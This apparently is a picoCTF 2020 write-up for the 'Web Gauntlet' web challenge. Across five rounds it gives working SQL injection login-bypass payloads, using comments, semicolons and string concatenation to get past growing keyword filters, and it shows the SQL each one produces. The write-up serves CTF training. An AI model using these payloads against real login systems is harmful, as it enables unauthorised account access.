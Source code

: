# Web Gauntlet

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2020 Mini-Competition, Web Exploitation
Author: MADSTACKS

Description:
Can you beat the filters? 
Log in as admin 
http://jupiter.challenges.picoctf.org:9683/ 
http://jupiter.challenges.picoctf.org:9683/filter.php

Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, 
   always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window
```
Challenge link: [https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

## Solution

Browsing to the site we see a login page with the heading `Round 1 / 5` and a Username field, a Password field and a `Sign In`-button.

The challenge description has already told us to expect [SQL injections](https://en.wikipedia.org/wiki/SQL_injection).

### Do a test login

To get more information I first tried to login with  
Username: `admin`  
Password: `admin123`

The following SQL statement was printed:  
`SELECT * FROM users WHERE username='admin' AND password='admin123'`

Checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round1: or`  
So I guess any `OR`-statements are filtered out.

### Round 1 of 5

I used the comment `--` to effectivly comment out the rest of the `SELECT`-statement.

Logging in with  
Username: `admin' --`  
Password: `whatever`  
returned the message `Congrats! On to round 2`.

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round2: or and like = --`
So we cannot use `--` comments any more. Neither `OR`, `AND`, `LIKE` nor `=`.

Let's use a `/* this is a multi-line comment */` [SQL comment](https://www.w3schools.com/sql/sql_comments.asp) instead.

### Round 2 of 5

Logging in with  
Username: `admin'/*`  
Password: `whatever`  
returned the message `Congrats! On to round 3`.

The following SQL statement was also printed:  
`SELECT * FROM users WHERE username='admin'/*' AND password='whatever'`

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round3: or and = like > < --`

It's impossible to see in a regular browser (use hex-output in Burp instead), but the space character is also included in the list of filters.

### Round 3 of 5

The above expression also works here but let's choose another one, one with the `;` character that ends SQL-statements.

Logging in with  
Username: `admin';`  
Password: `whatever`  
returned the message `Congrats! On to round 4`.

The following SQL statement was also printed:  
`SELECT * FROM users WHERE username='admin';' AND password='whatever'`

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round4: or and = like > < -- admin`

As before the space character is also included in the list of filters.

### Round 4 of 5

We cannot use the string `admin` any more. But we can use concatenation (`||`), as in one of the following combinations:
 * a'||'dmin'
 * ad'||'min'
 * adm'||'in'
 * admi'||'n'

I chose the last one.

Logging in with  
Username: `admi'||'n';`  
Password: `whatever`  
returned the message `Congrats! On to round 5`.

The following SQL statement was also printed:  
`SELECT * FROM users WHERE username='admi'||'n';' AND password='whatever'`

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round5: or and = like > < -- union admin`

As before the space character is also included in the list of filters.

### Round 5 of 5

We can re-use the same credentials as in round 4 to get the message:  
`Congrats! You won! Check out filter.php`

### Get the flag

Access `http://jupiter.challenges.picoctf.org:9683/filter.php` a final time to get the PHP source code with the flag as a comment at the end.

For additional information, please see the references below.

## References

- [Burp suite - Homepage](https://portswigger.net/burp)
- [PortSwigger - SQL Injection: Bypassing Common Filters](https://portswigger.net/support/sql-injection-bypassing-common-filters)
- [W3Schools - SQL Comments](https://www.w3schools.com/sql/sql_comments.asp)
- [Wikipedia - SQL](https://en.wikipedia.org/wiki/SQL)
- [Wikipedia - SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
